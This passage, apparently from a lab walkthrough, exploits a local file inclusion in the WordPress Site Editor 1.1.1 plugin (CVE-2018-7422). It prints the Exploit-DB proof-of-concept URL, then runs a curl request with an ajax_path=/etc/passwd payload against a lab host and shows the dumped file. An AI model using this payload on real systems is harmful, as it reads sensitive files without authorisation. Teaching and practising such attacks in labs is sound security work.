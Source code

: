 Success! Let's take a look at the text file associated with this LFI vulnerability.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 44340                                        
  Exploit: WordPress Plugin Site Editor 1.1.1 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/44340
     Path: /usr/share/exploitdb/exploits/php/webapps/44340.txt
File Type: UTF-8 Unicode text

Copied to: /home/kali/44340.txt
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat 44340.txt 
Product: Site Editor Wordpress Plugin - https://wordpress.org/plugins/site-editor/
Vendor: Site Editor
Tested version: 1.1.1
CVE ID: CVE-2018-7422
...
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

** Solution **
No fix available yet.
...
```

## Exploitation

### Local File Inclusion Vulnerability

In the "Proof of Concept" section, we find the URI we can use to dump the contents of files on the target system. Let's test this by attempting to read **/etc/passwd**.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```